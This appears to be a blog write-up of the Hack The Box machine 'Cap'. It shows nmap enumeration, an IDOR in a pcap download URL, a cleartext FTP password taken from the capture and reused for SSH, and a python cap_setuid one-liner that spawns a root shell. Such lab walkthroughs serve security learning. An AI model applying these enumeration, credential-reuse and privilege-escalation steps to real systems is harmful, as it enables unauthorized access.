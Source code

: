 ```yaml
---
layout: post
title: "HTB: Cap"
author: Andrew Cherney
date: 2023-02-11 10:03:53
tags: htb easy-box
icon: "assets/icons/cap.png"
post_description: "Cap is a clever name for this box as it involves looking through a pcap file for credentials to login as the user nathan. To obtain root the user must use a cap_setuid capability set for python. Overall basic but a pretty good test of some fundamentals."
---
```


<h1>Summary</h1>

Cap is a clever name for this box as it involves looking through a pcap file for credentials to login as the user nathan. To obtain root the user must use a cap_setuid capability set for python. Overall basic but a pretty good test of some fundamentals. 

<h1>Enumeration</h1>

<h2>nmap</h2>

```bash
nmap 10.10.10.245 -sC
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-12 17:33 CST
Nmap scan report for 10.10.10.245
Host is up (0.050s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http
|_http-title: Security Dashboard
```

<h2>Port 80 - http</h2>

![Security Dashboard](/img/cap/security_dashboard.png)

Here we have a security dashboard front page broadcasting basic security info such as security events, login attempts, and port scans. 

![Dashboard Sidebar](/img/cap/Cap_dashboard_sidebar.png)

On the sidebar there seems to be different pages that run differing commands. There's one for netstat, ifconfig, and a third for some packet capturing. 

![netstat](/img/cap/Cap_netstat.png)

![ifconfig](/img/cap/Cap_ifconfig.png)

![pcap download](/img/cap/Cap_pcap.png)

<h1>User as nathan</h1>

<h2>IDOR</h2>

If I download the pcap it gives me the file **1.pcap** but the more pressing matter is the url where I downloaded that pcap from. It's location is **/data/1** and if I replace that 1 with another number I might be able to download different pcaps. 

![data 0 pcap download](/img/cap/Cap_dashboard_data_0.png)

Excellent this gives a different number of packets and a different pcap file entirely. This is called Insecure Direct Object Reference, and as the name implies it allows an attacker to guess subsequent or future entries due to them following some scheme or pattern. 

<h2>PCAP Analysis</h2>

![pcap 0 wireshark](/img/cap/Cap_pcap_0_wireshark.png)

HTTP and FTP traffic can be found. Notable packets include the ones where the user nathan logs into FTP with the password **Buck3tH4TF0RM3!**, then lists the directory twice, and fails to retrieve a file named **notes.txt**. 

Now I've made this mistake in the pass where I spend hours enumerating through a service like ftp or a wordpress login, when I should always try that new password with the user for an ssh login. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Cap]
└──╼ $ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ cat user.txt
bd987c30a7e946cc2---------------
```

<h1>Root</h1>

<h2>Capabilities</h2>

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

<h2>cap_setuid</h2>

For the uninitiated, capabilities are a way to give specific administrative rights to commands, scripts etc.. that allow them to perform necessary functions without creating security issues, most of the time anyway. Take the capability **cap_net_bind_service**, which allows the service or command to bind to a port without needing root permissions or a password. 

For our purposes capabilities such as **cap_setuid** are what we look for, and with it attached to python is makes priv esc simple. We can construct a python command which imports the os module for linux command running, then set the user id to 0 (root) and run **/bin.bash** with **os.system**. 

```bash
nathan@cap:~$ python3 -c "import os; os.setuid(0); os.system('/bin/bash')"
root@cap:~# cat /root/root.txt
d40593e74f550e2----------------
```

